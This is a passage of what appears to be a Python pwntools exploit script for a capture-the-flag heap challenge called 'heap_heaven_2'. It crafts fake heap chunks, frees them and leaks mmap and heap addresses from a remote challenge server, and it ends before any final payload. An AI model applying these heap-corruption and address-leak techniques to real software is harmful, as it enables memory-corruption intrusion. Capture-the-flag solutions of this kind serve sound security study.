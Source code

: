 ```python
  p.sendline(str(offset))

def leak_heap(offset):
  p.recvuntil("[5] : exit\n")
  p.sendline("4")
  p.recvuntil("At which offset do you want to leak?\n")
  p.sendline(str(offset))
  p.recvuntil("a"*16)
  addr = u64(p.recv(6).ljust(8,'\x00'))
  return addr

def leak_heap1(offset):
  p.recvuntil("[5] : exit\n")
  p.sendline("4")
  p.recvuntil("At which offset do you want to leak?\n")
  p.sendline(str(offset))
  addr = u64(p.recv(6).ljust(8,'\x00'))
  return addr

#p = process("./heap_heaven_2")
p = remote("arcade.fluxfingers.net",1809)

x = (p64(0x00) + p64(0x21) + "2"*0x10 + p64(0x00) + p64(0x91) + "1"*0x80)*8
write_heap(len(x),0x1000,x)
free_heap(0x1000+0x10)
free_heap(0x1000+0x10+0xb0)
free_heap(0x1000+0x10+0xb0*2)
free_heap(0x1000+0x10+0xb0*3)
free_heap(0x1000+0x10+0xb0*4)
free_heap(0x1000+0x10+0xb0*5)
free_heap(0x1000+0x10+0xb0*6)

heap1 = p64(0x00) + p64(0x21) + "1"*0x10
heap2 = p64(0x00) + p64(0x21) + "2"*0x10 
heap3 = p64(0x00) + p64(0x421) + "3"*0x410
heap4 = p64(0x00) + p64(0x21) + "4"*0x10
heap5 = p64(0x00) + p64(0x21) + "5"*0x10
heap6 = p64(0x00) + p64(0x31) + "6"*0x20

data1 = heap1 + heap2 + heap3 + heap4 + heap5 + heap6
data2 = "a"*16

write_heap(len(data1),0,data1)
write_heap(len(data1),0x800,data1)
write_heap(len(data1),0x1800,data1)
free_heap(0x1800 + len(heap1) + 0x10)   #heap2
free_heap(0x1800 + len(heap1 + heap2 + heap3) + 0x10) #heap4
free_heap(0x1800 + len(heap1 + heap2 + heap3 + heap4) + 0x10)#heap5

write_heap(len(data2),0x1800+len(heap1 + heap2 + heap3),data2)
mmap = leak_heap(0x1800 + len(heap1 + heap2 + heap3 + heap4) + 0x10) & 0xFFFFFFFFFF
mmap -= len(heap1)
mmap -= 0x1800
print "mmap: " + hex(mmap)

free_heap(len(heap1 + heap2) + 0x10)#heap3
addr2 = leak_heap1(len(heap1 + heap2) + 0x10)
heap = addr2 - 0x290
print "heap: " + hex(heap)

free_heap(len(heap1 + heap2) + 0x10 + 0x800)
write_heap(17,len(heap1 + heap2),"a"*17)
addr1 = leak_heap(len(heap1 + heap2) + 0x10 + 0x800) &0xffffffffff00
```